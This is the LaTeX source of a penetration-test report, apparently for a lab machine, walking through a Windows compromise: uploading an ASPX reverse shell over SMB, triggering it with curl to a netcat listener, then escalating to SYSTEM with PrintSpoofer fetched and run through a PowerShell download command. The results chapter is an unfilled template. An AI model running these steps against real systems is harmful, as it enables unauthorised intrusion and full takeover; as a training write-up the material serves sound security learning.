	
\includegraphics[width=1\textwidth]{img/blue.png}
\end{center}
The last photo shows that there is a highly critical vulnerability
known famously as the Eternal Blue.
The output also shows that the same folder on the smbshare is also 
the place where http website running at port 49663. So I can
put a reverse shell in the smb share and access it via browser
to trigger it to execute. This way I would be able to run commands
on the target's terminal.
\section{Exploitation}
I have now two methods to get shell on the target machine.
\subsection{Method1: Eternal Blue Exploit}
This is the famous exploit for the SMBv1 protocol and can be exploited with the msfconsole
tool. The exploit makes use of the way Microsoft Windows
handles specially crafted packets and lead to remote code
execution on the target. 
\subsection{Method2: Reverse shell through SMB and Webserver}
For uploading the reverse shell on smbserver, I used this 
shell[\ref{shell}]. The script has an \emph{ip} and 
\emph{port} parameter
which needs to be changed to the attacker machine for the
reverse shell to connect to.
\begin{lstlisting}[language=bash]
  smb:\> put <path_to_reverse_shell>
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth,height=7cm]{img/uploadshell.png}
\end{center}
I have set the listening port to 4444.
Starting a netcat listener for the reverse shell to connect to:
\begin{lstlisting}[language=bash]
  $ nc -lnvp 4444
\end{lstlisting}
Now accessing this shell from the website would trigger the 
reverse shell,
\begin{lstlisting}[language=bash]
  $ curl 'http://10.10.212.187:49663/nt4wrksv/shell.aspx'
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/shell.png}
\end{center}
\section{Privilege Escalation}
The shell which I got is from the user
\emph{\textbf{"iis apppool$\backslash$defaultapppool"}}.
The goal is to get the \textbf{NT AUTHORITY$\backslash$SYSTEM}
which is the user with the highest permissions on a 
windows machine.
The current user has \emph{\textbf{"SeImpersonatePrivilege"}}
token enabled also known as the "Impersonate a client after authentication"
privilege, is a security privilege in the Windows
operating system. Impersonation enables
a process to temporarily assume the identity and permissions
of a different user, allowing it to perform actions on behalf
of that user.
\begin{center}
	
\includegraphics[width=1\textwidth]{img/priv.png}
\end{center}
\par
So, I used a script[\href{https://github.com/itm4n/PrintSpoofer/releases}{\textcolor{blue}{here}}]
 that will use this token to escalate the current shell to
NT AUTHORITY$\backslash$SYSTEM.
I downloaded the "PrintSpoofer64.exe" from[\ref{priv_tool}] and transfered
it to windows shell through python http server.\\
\underline{On Kali:}
\begin{lstlisting}[language=bash]
  $wget 'https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe' -q -O exploit.exe
  $python3 -m http.server
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/server.png}
\end{center}
\underline{On Windows:}
\begin{lstlisting}
  $powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.2.227:8000/exploit.exe','exploit.exe')"
  $exploit.exe -i -c powershell
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/transfer.png}
\end{center}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/root.png}
\end{center}
The script successfully ran and gave me the administrator level
shell on the system. Now we can get the files needed for the
PoC of this pentest.

		\newpage

		\chapter{Results}
In this chapter, the vulnerabilities
found during the penetration test are presented.
All the vulnerabilities are grouped by target and contain the following information:
\begin{itemize}
	\item Brief description.
	\item CVSS Base Score -- see \href{https://www.first.org/cvss/user-guide}{\textcolor{blue}{\underline{here}}} for details.
	\item Exploitability -- describes the likelihood of an issue being used against customer's infrastructure.
	\item Business impact.
	\item References to classifications: WASC, OWASP, CWE.
\end{itemize}

Also the remediation recommendations are given
for each issue found during the penetration test.
Both "quick win" and long term solutions are presented 
as well as some code examples.

\section{HTTP Service}
\subsection{Arbitrary File Upload} \label{ss: issue-1}
When a web application allows users to upload
files without proper validation and controls.
This vulnerability can be exploited by
attackers to upload and execute malicious
files on the server, compromising the
integrity and confidentiality of the system.

Basic information about this issue is presented in Table \ref{tbl:issue-1}. 
\begin{table}[h]
	\centering
	\begin{tabular}{| l | p{10cm} |}
		\hline 
		Description & Description goes here. \\
		\hline 
		CVSS Base Score & 8.0 \\
		\hline 
		Exploitablity & High \\
		\hline 
		Business impact & Business impact goes here.  \\
		\hline 
		\multirow{2}{*}{References to classifications} & WASC \\
		\cline{2-2} 
		& OWASP\\
		\hline 
		Affected input & Affected input goes here \\
		\hline 
		Affected output &  \begin{itemize}
			\item output 1.
			\item output 2.
		\end{itemize} 
		\\
		\hline 
	\end{tabular}
\caption{Issue \#1: description of the issue}
\label{tbl:issue-1}
\end{table}

\subsubsection{Minimal proof of concept}
Steps to reproduce the issue go here. Screenshots are welcome.

\subsubsection{Proposed solutions} \label{solution: issue-1}
Proposed solution to the issue goes here.

\newpage

\subsection{Stored XSS} \label{ss: issue-2}
General information about Persistent XSS attacks goes here.\\
Basic information about this issue is presented in Table \ref{tbl:issue-2}. 
\begin{table}[h]
	\centering
	\begin{tabular}{| l | p{10cm} |}
		\hline 
		Description & Description goes here. \\
		\hline 
		CVSS Base Score & 8.0 \\
		\hline 
		Exploitablity & High \\
		\hline 
		Business impact & Business impact goes here.  \\
		\hline 
		\multirow{2}{*}{References to classifications} & WASC \\
		\cline{2-2} 
		& OWASP \\
		\hline 
		Affected input & Input. \\
		\hline 
		Affected output &   \begin{itemize}
			\item Output 1.
			\item Output 2.
		\end{itemize}  \\
		\hline 
	\end{tabular}
	\caption{Issue \#2: description of the issue}
	\label{tbl:issue-2}
\end{table}

\subsubsection{Minimal proof of concept}
Steps to reproduce the issue go here. Screenshots are welcome.

\subsubsection{Proposed solutions} \label{solution: issue-2}
Proposed solution to the issue goes here.

\newpage

\section{Subdomain 1}
System description goes here.\\
\textbf{Hostname}: \url{https://1.example.com}\\
\textbf{Server IP address}: 127.0.01

\subsection{Balance manipulation during order confirmation} \label{ss: issue-3}
General vulnerability description goes here.

Basic information about this issue is presented in Table \ref{tbl:issue-3}. 
\begin{table}[h]
	\centering
	\begin{tabular}{| l | p{10cm} |}
		\hline 
		Description & Description goes here. \\
		\hline 
		CVSS Base Score & 8.0 \\
		\hline 
		Exploitablity & High \\
		\hline 
		Business impact & Business impact goes here.  \\
		\hline 
		\multirow{2}{*}{References to classifications} & WASC \\
		\cline{2-2} 
		& OWASP\\
		\hline 
		Affected input & Affected input goes here \\
		\hline 
		Affected output &  \begin{itemize}
			\item output 1.
			\item output 2.
		\end{itemize} 
		\\
		\hline 
	\end{tabular}
	\caption{Issue \#3: description of the issue}
	\label{tbl:issue-3}
\end{table}

\subsubsection{Minimal proof of concept}
Steps to reproduce the issue go here. Screenshots are welcome.

\subsubsection{Proposed solutions} \label{solution: issue-3}
Proposed solution to the issue goes here.

\newpage

\section{Subdomain 2}
System description goes here.\\
\textbf{Hostname}: \url{https://2.example.com}\\
\textbf{Server IP address}: 127.0.01

\subsection{Unauthenticated SQL Injection} \label{ss: issue-4}
General vulnerability description goes here.

Basic information about this issue is presented in Table \ref{tbl:issue-4}. 
\begin{table}[h]
	\centering
	\begin{tabular}{| l | p{10cm} |}
		\hline 
		Description & Description goes here. \\
		\hline 
		CVSS Base Score & 8.0 \\
		\hline 
		Exploitablity & High \\
		\hline 
		Business impact & Business impact goes here.  \\
		\hline 
		\multirow{2}{*}{References to classifications} & WASC \\
		\cline{2-2} 
		& OWASP\\
		\hline 
		Affected input & Affected input goes here \\
		\hline 
		Affected output &  \begin{itemize}
			\item output 1.
			\item output 2.
		\end{itemize} 
		\\
		\hline 
	\end{tabular}
	\caption{Issue \#4: description of the issue}
	\label{tbl:issue-4}
\end{table}

\subsubsection{Minimal proof of concept}
Steps to reproduce the issue go here. Screenshots are welcome.

\subsubsection{Proposed solutions} \label{solution: issue-4}
Proposed solution to the issue goes here.
		\newpage
		
		\chapter{Appendices} 

\section{Appendix \#1} \label{appendix-1}
\large{Installation of Tools}
\begin{itemize}
    \item \textbf{Nmap}: \$sudo apt install nmap
    \item \textbf{Netcat}: \$sudo apt install nc
    \item \textbf{Gobuster}: \$sudo apt install gobuster
    \item \textbf{Smbclient}: \$sudo apt install smbclient
    \item \textbf{Msfconsole}: \$sudo apt install msfconsole
\end{itemize}

\section{Appendix \#2} \label{appendix-2}
Appendix 2.
\end{document}